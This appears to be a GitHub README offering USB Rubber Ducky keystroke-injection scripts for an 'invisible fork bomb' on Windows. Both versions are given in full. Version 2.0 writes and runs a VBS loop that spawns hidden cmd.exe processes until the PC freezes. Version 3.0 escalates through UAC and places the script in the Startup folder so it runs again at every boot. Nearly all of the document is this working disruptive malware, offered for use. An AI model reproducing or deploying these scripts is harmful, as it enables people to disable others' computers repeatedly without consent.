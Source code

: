 # Invisible Fork Bomb [Windows 7 and upper]
**V. 2.0:** The script creates and starts a vbs that executes exponentially cmd.exe without visible windows (Fork bomb -> Freezes the PC).

**V. 3.0:** The same, but it sets the vbs file into the startup.

**Original repository:** <a href="https://github.com/BlueArduino20/Invisible_fork_bomb">https://github.com/BlueArduino20/Invisible_fork_bomb</a>

**Author:** BlueArduino20

<h2>Code for Ducky [2.0]</h2>

<pre><code>DELAY 1000
GUI r
DELAY 500
STRING cmd
ENTER
DELAY 500
STRING copy con forkb.vbs
ENTER
STRING do
ENTER
STRING CreateObject("Wscript.Shell").Run "cmd", 0, False
ENTER
STRING loop
CTRL z
ENTER
DELAY 50
STRING start forkb.vbs && exit
ENTER
</pre></code>

<h2>Code for Ducky [3.0]</h2>
[Warning] That version sets the vbs file into the startup.

<pre><code>DELAY 1000
CTRL ESC
DELAY 500
STRING cmd
CTRL SHIFT ENTER
DELAY 400
ALT y
DELAY 500
STRING copy con "%userprofile%\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\FB.vbs"
ENTER
STRING do
ENTER
STRING CreateObject("Wscript.Shell").Run "cmd", 0, False
ENTER
STRING loop
CTRL z
ENTER
DELAY 50
STRING start FB.vbs && exit
ENTER
</pre></code>